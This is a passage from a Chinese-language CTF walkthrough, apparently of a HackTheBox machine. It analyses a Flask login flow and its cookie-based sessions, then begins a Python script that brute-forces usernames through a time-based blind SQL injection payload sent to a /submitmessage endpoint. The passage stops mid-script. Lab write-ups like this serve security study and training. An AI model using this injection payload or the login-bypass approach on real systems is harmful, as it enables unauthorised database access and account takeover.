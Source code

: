 3. 存在管理员入口 /admin

**0x03 分析应用源码**

1.  分析登录逻辑
    

```
前端将用户名密码发送到 /postlogin 中
```

```
@app.route("/postlogin", methods=["POST"])
def postlogin():
# 尝试登录，如果成功，返回用户信息
data = try_login(request.form)
if data:
resp = make_response("OK")
# 创建一个session保存登录凭证
session = lwt.create_session(data)
cookie = lwt.create_cookie(session)
resp.set_cookie("auth", cookie)
return resp
return "Login failed"
```

分析 try_login 代码

```
def try_login(form):
""" Try to login with the submitted user info """
if not form:
return None
username = form["username"]
# 这里的password是经过hash_password处理过的
password = hash_password(form["password"])
result = query_db("select count(*) from users where username = ? and secret =
?", (username, password), one=True)
if result and result[0]:
return {"username": username, "secret":password}
return None
```

由于存在数据库中的密码是 hash 过的，所以我们有两种方法：  

*   破解 hash 
    
*   通过生成 Cookie 的方式绕过登录  
    

**0x04 获取 admin 权限**

1. 爆破获得数据库存在的用户信息

```
时间盲注，可以使用SQLMap直接Dump，这里主要是使用编写的脚本
```

```
#!/usr/bin/env python3
import requests
import string
import sys
def brute_user(res):
for c in string.ascii_lowercase + string.digits:
sys.stdout.write(f"\r[*] Trying username: {res}{c.ljust(20)}")
sys.stdout.flush()
resp = requests.post(
"http://10.10.10.195/submitmessage",
data=f"message='||(select username from users where username LIKE
'{res + c}%' and load_extension('a'))||'",
headers={"Content-Type": "application/x-www-form-urlencoded"},
```
